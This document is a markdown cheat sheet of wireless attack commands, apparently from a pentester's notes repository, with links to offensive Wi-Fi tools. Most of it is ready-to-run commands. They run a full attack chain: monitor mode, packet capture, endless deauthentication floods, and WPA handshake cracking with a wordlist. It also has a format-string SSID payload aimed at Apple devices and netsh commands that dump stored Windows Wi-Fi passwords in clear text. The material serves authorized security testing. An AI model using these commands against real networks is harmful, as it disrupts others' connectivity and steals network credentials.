 # Wireless Attacks

- [Resources](#resources)

## Table of Contents

- [Aircrack-ng](#aircrack-ng)
- [airodump-ng](#airodump-ng)
- [airmon-ng](#airmon-ng)
- [ALFA AWUS036ACH](#alfa-awus036ach)
- [Apple Wi-Fi Evil SSID](#apple-wi-fi-evil-ssid)
- [mdk3](#mdk3)
- [Microsoft Windows](#microsoft-windows)
- [Wi-Fi Example Attack](#wi-fi-example-attack)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Aircrack-ng | WiFi security auditing tools suite | https://github.com/aircrack-ng/aircrack-ng |
| airgeddon | This is a multi-use bash script for Linux systems to audit wireless networks. | https://github.com/v1s1t0r1sh3r3/airgeddon |
| EAPHammer | EAPHammer is a toolkit for performing targeted evil twin attacks against WPA2-Enterprise networks. | https://github.com/s0lst1c3/eaphammer |
| Flipper | Playground (and dump) of stuff I make or modify for the Flipper Zero | https://github.com/UberGuidoZ/Flipper |
| flipperzero-firmware | Flipper Zero Code-Grabber Firmware | https://github.com/Eng1n33r/flipperzero-firmware |
| flipperzero-firmware-wPlugins | Flipper Zero FW [ROGUEMASTER] | https://github.com/RogueMaster/flipperzero-firmware-wPlugins |
| JackIt | JackIt - Exploit Code for Mousejack Resources | https://github.com/insecurityofthings/jackit |
| Pwnagotchi | (⌐■_■) - Deep Reinforcement Learning instrumenting bettercap for WiFi pwning. | https://github.com/evilsocket/pwnagotchi |
| WEF | A fully offensive framework to the 802.11 networks and protocols with different types of attacks for WPA/WPA2 and WEP, automated hash cracking, bluetooth hacking and much more. | https://github.com/D3Ext/WEF |
| Wifite | This repo is a complete re-write of wifite, a Python script for auditing wireless networks. | https://github.com/derv82/wifite2 |

## Aircrack-ng

```c
$ tshark -F pcap -r <FILE>.pcapng -w <FILE>.pcap
$ aircrack-ng -w /usr/share/wordlists/rockyou.txt <FILE>.pcap
```

## airodump-ng

```c
$ sudo airodump-ng <INTERFACE>mon
```

## airmon-ng

```c
$ sudo airmon-ng check kill
$ sudo airmon-ng start <INTERFACE>
$ sudo airmon-ng stop <INTERFACE>
```

## ALFA AWUS036ACH

```c
$ sudo apt-get install realtek-rtl88xxau-dkms
```

## Apple Wi-Fi Evil SSID

```c
%p%s%s%s%s%n
```

## mdk3

> https://github.com/charlesxsh/mdk3-master

```c
$ sudo mdk3 <INTERFACE>mon d -c <CHANNEL_NUMBER>
$ sudo mdk3 <INTERFACE>mon d <BSSID>
$ sudo mdk3 <INTERFACE>mon b <BSSID>
```

## Microsoft Windows

### Wireless Profiles

#### List Profiles

```c
PS C:\> netsh wlan show profiles
```

#### Extract Passwords

```c
PS C:\> netsh wlan show profile name="<PROFILE>" key=clear
```

#### Export Profiles

```c
PS C:\> netsh wlan export profile name="<PROFILE>" folder=C:\temp
```

## Wi-Fi Example Attack

```c
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
$ sudo airodump-ng wlan0mon
$ sudo airodump-ng -w <FILE> -c <CHANNEL> --bssid <BSSID> wlan0mon
```

```c
$ sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
```

```c
$ aircrack-ng <FILE>.cap -w /usr/share/wordlists/rockyou.txt
```

```c
$ sudo airmon-ng stop wlan0mon
```
